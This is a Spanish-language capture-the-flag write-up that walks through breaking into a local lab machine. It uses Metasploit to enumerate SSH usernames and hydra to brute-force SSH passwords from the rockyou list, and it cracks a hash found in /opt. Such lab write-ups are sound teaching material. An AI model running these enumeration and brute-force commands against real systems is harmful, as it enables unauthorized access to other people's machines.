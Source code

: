 Fecha: 07/08/2024
Empiezo haciendo un scaneo completo a la máquina, y encuentro OpenSSH en el puerto 22.

![](Imágenes/Pasted%20image%2020240807004750.png)

Uso searchsploit para comprobar si hay alguna vulnerabilidad en esa versión, encontrando que hay la posiblidad de hacer 'Username Enumeration' . Intenté usar los scripts de searchsploit, pero no ví como usarlos, así que uso metasploit:

![](Imágenes/Pasted%20image%2020240807005624.png)

```
msfconsole 
```

![](Imágenes/Pasted%20image%2020240807011707.png)

Comandos usados:
```
search OpenSSH # podría haber concretado type:auxiliary ya que es info gather.
use 3 # Ya que el módulo que queremos usar tiene "id" 3
show options # Ver las opciones: interesa USER_FILE y RHOSTS, el puesto ya es 22
set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt # Lista de posibles usuarios
set RHOSTS 172.17.0.2 
run
```


Vemos que el usuario "root" es accesible por ssh: 

![](Imágenes/Pasted%20image%2020240807013754.png)
Busco la contraseña hydra (resultado, `estrella`) y ya me conecto: 
```
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![](Imágenes/Pasted%20image%2020240807013949.png)

### Viendo otros writeups, he visto que hay otra solución:
En vez de la lista unix_users de metasploit, uso /usr/share/wordlists/rockyou.txt:

Encuentro el usuario lovely, y uso hydra, obteniendo la contraseña `rockyou`:
![](Imágenes/Pasted%20image%2020240807012550.png)

Que resulta ser `rockyou`. Tras mirar en su homepath, no veo nada, miro en /opt y hay un hash, que crackeando en una página online (https://crackstation.net/) se traduce como "estrella" (la contraseña de su)

![](Imágenes/Pasted%20image%2020240807014453.png)
![](Imágenes/Pasted%20image%2020240807014641.png)

